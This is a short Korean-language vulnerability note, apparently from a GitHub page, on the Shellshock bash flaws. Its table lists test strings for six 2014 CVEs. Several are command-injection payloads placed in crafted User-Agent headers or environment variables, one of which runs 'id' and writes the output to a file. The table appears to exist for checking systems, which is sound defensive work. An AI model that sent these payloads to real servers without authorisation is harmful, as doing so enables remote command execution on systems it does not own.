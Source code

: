 # 개요

* 리눅스를 포함한 유닉스 계열 운영체제에서 사용되는 명령어 실행 툴인 bash로부터 발생하는 취약점

# 알려진 내용

#### 공통사항\(취약한 버전의 bash 쉘을 사용중일 경우\)

1. 파싱 오류로 인한 보안 취약점 노출: 특정 프로세스를 생성하는 등의 행위를 하는 모듈이 동작해야 함 \(Ex: Enabled CGI module on the apache web server\)
2. 메모리 실행 오류로 인한 보안 취약점 노출: 위의 공통 사항과 동일

#### 취약점 분류 내역

| CVE NAME | Test Code |
| :--- | :--- |
| CVE-2014-6271 | export x="\(\) { :; }; \[임의의 명령\];" |
| CVE-2014-6277 | User-Agent: \(\) { 0; }; /bin/bash -c 'x\(\) { \_; }; x\(\) { \_; } &lt;&lt;a;' |
| CVE-2014-6278 | User-Agent: \(\) { \_; } &gt;\_\[$\($\(\)\)\] { id &gt;/tmp/CVE-2014-6278; } |
| CVE-2014-7169 | env X='\(\) { \(a\)=&gt;\' bash -c "echo date" |
| CVE-2014-7186 | bash -c 'true &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF &lt;&lt;EOF' |
| CVE-2014-7187 | \(for x in {1..200} ; do echo "for x$x in ; do :"; done; for x in {1..200} ; do echo done ; done\) \| bash \|\| echo "CVE-2014-7187 vulnerable, word\_lineno" |

출처 : [http://teamcrak.tistory.com/380](http://teamcrak.tistory.com/380)


